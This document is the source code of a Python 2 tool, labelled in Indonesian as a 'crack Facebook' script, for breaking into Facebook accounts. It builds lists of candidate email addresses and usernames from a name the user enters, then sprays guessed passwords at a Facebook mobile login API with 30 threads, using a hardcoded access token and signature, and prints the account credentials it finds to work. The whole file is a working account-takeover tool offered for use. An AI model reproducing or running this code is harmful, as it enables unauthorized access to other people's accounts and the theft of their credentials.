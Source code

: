 CRACK 

SC CRACK FACEBOOK FREE RECODE 

# -*- coding UTF-8 -*-
#  Author : Hanz
#  Tools : crack efbih mungkin
#  Versi : 0.5

versi = "0.5"
import os
try:
	import requests
except ImportError:
	print " \033[93;1m\n     lo belum Install modul Requests,\n   klik Enter Untuk Install Requests... "
	raw_input(" ====>")
	os.system("pip install requests" if os.name == 'nt' else 'pip2 install requests')
	
try:
	from prettytable import PrettyTable
except ImportError:
	print " \033[93;1m\n     Kamu belum Install modul PTable,\n   Tekan Enter Untuk Install PTable... "
	raw_input(" ====>")
	os.system("pip install PTable" if os.name == 'nt' else 'pip2 install PTable')
	
import requests, json
from br import brute
from multiprocessing import Process
from multiprocessing.pool import Process, ThreadPool
from useragents import baner, multi_ban, deviv, divev, download
import subprocess, sys
	
os.system('' if os.name == 'nt' else 'chmod +x *')
users1 = []

users2 = []
users3 = []
users4 = []
users5 = []
users6 = []

def user_dev():
  try:
  	print multi_ban
  	us = raw_input("\033[96;1m {\033[97;1m@\033[96;1m}\033[92;1m Masukkan Nama Facebook, Conth:\033[96;1m lucinta\n\033[97;1m  ==> ")
  	jumlah = input("\n\033[96;1m\033[96;1m {\033[97;1m$\033[96;1m}\033[92;1m Jumlah User Yg Mau Di Crack\033[96;1m (Max=5000):\n\033[93;1m  ==> ")
  	san_dev = raw_input("\n\033[96;1m\033[96;1mMugkin {\033[97;1m$\033[96;1m}\033[92;1m Sandi Yg Munkin Digunkn, conth:\033[96;1m lucinta123\n\033[97;1m  ==> ")
  	# set password
  	if us == '' or us == ' ' or san_dev == '' or san_dev == ' ':
  		exit('\n \033[91;1m Jangan Kosong Lah monyet.. \n')
  	print '\n\033[95;1m<<\033[96;1m Proses Cracking Sedang Berjalan,Tunggu Ajh!\033[95;1m >> \n'
  	sandi1 = san_dev.replace(' ', '\n').replace(',', '\n').replace('/', '\n')
  	sandi = sandi1.replace('\n\n', '\n')
  	# set usernmae
  	userz = us.replace(' ', '')
  	p = open("pass.txt", "w")
  	p.write(sandi)
  	p.close()
	bag = jumlah / 6 + 1
	bag1 = jumlah / 3 + 1
	bag2 = jumlah / 2 + 1
	bag3 = jumlah / 2 + bag
	bag4 = jumlah / 2 + bag1
	

	for dev in range(1, jumlah+1):
		users1.append(userz+str(dev)+'@gmail.com')
	for dev in range(1, jumlah+1):
		users1.append(userz+str(dev)+'@yahoo.com')
	# for dev in range(1, bag):
	# 	users1.append(userz+'.'+str(dev))

	for dev in range(bag, bag1):
		users2.append(userz+'.'+str(dev))
	
	for dev in range(bag1, bag2):
		users3.append(userz+'.'+str(dev))
	
	for dev in range(bag2, bag3):
		users4.append(userz+'.'+str(dev))
	
	for dev in range(bag3, bag4):
		users5.append(userz+'.'+str(dev))
	
	for dev in range(bag4, jumlah+1):
		users6.append(userz+'.'+str(dev))
		
  except KeyboardInterrupt: 
  	exit("\033[91;1m \n Keluar... \n")
  except NameError:
  	exit('\n\033[91;1m Masukkan angka nyet..\n')
  except SyntaxError:
	exit('\n\033[91;1m Masukkan Angka nyet..\n ')

def pro_dev(ival):
	pas = open("pass.txt", "r").readlines()
	iqbal = ival.replace('\n', '')
	for iq in pas:
	  try:
	  	iqu = iq.replace('\n', '').replace('\n\n', '') 
	  	dev = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+ival+"&locale=en_US&password="+iqu+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
	  	dev_iv = dev.content
	  	jsl = json.loads(dev_iv)
	  	if "session_key" in dev_iv:
	  		print "\033[96;1m  [\033[92;1mSUC\033[96;1m] " +'\033[97;1m'+ iqbal + '\033[96;1m |\033[97;1m '+ iqu
  	  	elif "www.facebook.com" in jsl["error_msg"]:
 			print "\033[96;1m  [\033[92;1mSUC\033[96;1m] " +'\033[97;1m'+ iqbal + '\033[96;1m |\033[92;1m '+ iqu

	  	else:
	  		pass

	  except:
	  	pass

# def dev_id():
# 	for dev in users:
# 		pro = Process(target=pro_dev, args=(dev,))
# 		multi.append(pro)
# 		pro.start()

# 	for dev in multi:
# 		dev.join()

def run():
	dev = ThreadPool(30)
	dev.map(pro_dev, users1)
	
if __name__ == '__main__':
	
	try:
		download()
		os.system('cls' if os.name == 'nt' else 'clear')
		print baner
		pil = raw_input("\033[96;1m {\033[95;1m?\033[96;1m}\033[92;1m Pilih Opsi\033[93;1m : ")
		if pil == '1':
			brute()
		elif pil == '2':
			user_dev()
			run()

			print "\n\033[97;1m     ==[ \033[96;1m Selesai...... \033[91;1mVersi "+versi+"\033[97;1m  ]== \n"
			divev()
			deviv()

		elif pil== '3':
			try:
				subprocess.check_output(['am', 'start', 'https://www.youtube.com/channel/UCvjRdkX9q8udv5ZXmhhLZxg'])
			except KeyboardInterrupt:
				subprocess.check_output(['am', 'start', 'https://www.youtube.com/channel/UCvjRdkX9q8udv5ZXmhhLZxg'])
			except WindowsError:
				os.system('brute.py' if os.name == 'nt' else 'python2 brute.py')

		elif pil == '4':
			try:
				print " \n\n \033[97;1m        +++[ \033[96;1m Tools Versi "+versi+" \033[97;1m ]+++" 
				print " \n               \033[93;1m Keunggulan:\n\n   \033[97;1m   Lebih Power Full dibanding yg V.01 \n      bisa mengisi lebih dari 1 password  \n"
				print " \n\033[95;1m   Silahkan Ikuti Instagram saya \033[96;1m(IqbalDev)"
				raw_input(" \033[97;1m    Tekan Enter Untuk Membuka Instagram..")
				subprocess.check_output(['am', 'start', 'https://www.instagram.com/iqbaldev/'])
				os.system('brute.py' if os.name == 'nt' else 'python2 brute.py')
			except KeyboardInterrupt:
				subprocess.check_output(['am', 'start', 'https://www.instagram.com/iqbaldev/'])
				os.system('brute.py' if os.name == 'nt' else 'python2 brute.py')
			except WindowsError:
				os.system('brute.py' if os.name == 'nt' else 'python2 brute.py')

		else:
			print "\n\033[90;1m Pilih yang Bener lah Kampprett.. "
			divev()
			deviv()
			
	except KeyboardInterrupt:
		exit("\n\033[90;1m Keluar... ")
